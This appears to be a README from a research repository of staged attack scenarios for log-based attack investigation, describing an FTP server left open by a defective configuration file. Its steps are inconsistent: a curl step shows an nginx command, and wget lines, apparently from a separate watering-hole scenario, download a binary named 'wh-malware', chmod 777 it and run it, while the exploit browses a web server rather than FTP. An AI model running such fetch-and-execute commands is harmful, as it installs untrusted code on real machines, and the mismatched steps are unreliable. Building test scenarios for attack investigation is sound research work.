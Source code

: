 ## Scenario

The victim FTP server administrator seeks for existing template configurations of the FTP server, and downloads several different template files via `curl`. Unfortunately, one of those configuration files is defective which mis-configured the root directory for the server, and allows users to access sensitive files.

One of the users accidentally finds he has permission to access sensitive data, and then transfers those files via FTP.

### Similar scenario

[OmegaLog: High-Fidelity Attack Investigation via Transparent Multi-layer Log Analysis](https://www.ndss-symposium.org/wp-content/uploads/2020/02/24270-paper.pdf)

[MPI: Multiple Perspective Attack Investigation with Semantics Aware Execution Partitioning](https://www.usenix.org/system/files/conference/usenixsecurity17/sec17-ma.pdf)

## Implementation

### sources

Ubuntu 16.04: http://mirror.nus.edu.sg/ubuntu-ISO/16.04/    
curl 7.44.0: https://github.com/curl/curl/releases/download/curl-7_44_0/curl-7.44.0.tar.gz    
proftpd 1.3.6: https://github.com/proftpd/proftpd/archive/refs/tags/v1.3.6b.tar.gz

### Deploy

**FTP server (Victim IP1)**

* build and install
```
tar xzvf v1.3.6b.tar.gz && cd proftpd-1.3.6
./configure --prefix=/home/chuqi/local/proftpd
make && make install
```

* configure file

The default configuration file is at `/home/chuqi/local/proftpd/etc/proftpd.conf`. Nonetheless, we will not touch this file since this scenario is under a defective configuration file.

* ftp directories

Download the folder `ftp-source-root` under this github directory.
```
cp ftp-source-root /home/chuqi
```

* deploy
```
sudo /home/chuqi/local/proftpd/sbin/proftpd -c /path/to/configure/file
```

**Operations (Victim IP1)**

1. Download different configuration files (including the defective configuration file) via curl

```
/home/chuqi/local/nginx/sbin/nginx
```

1. Download several packages via wget 
```
wget https://github.com/Icegrave0391/attack-scenarios/releases/download/v0.1-watering-hole/wh-malware https://github.com/Icegrave0391/attack-scenarios/releases/download/v0.1-watering-hole/wh-pkg1 https://github.com/Icegrave0391/attack-scenarios/releases/download/v0.1-watering-hole/wh-pkg2

chmod 777 wh-*
```
2. Execute `wh-malware`

```
./wh-malware
```

**Exploit (Attacker IP2)**    

Access victim's web-server on attacker's browser:
```
IP1:8080/data/xxx
IP1:8080/images/xxx
```

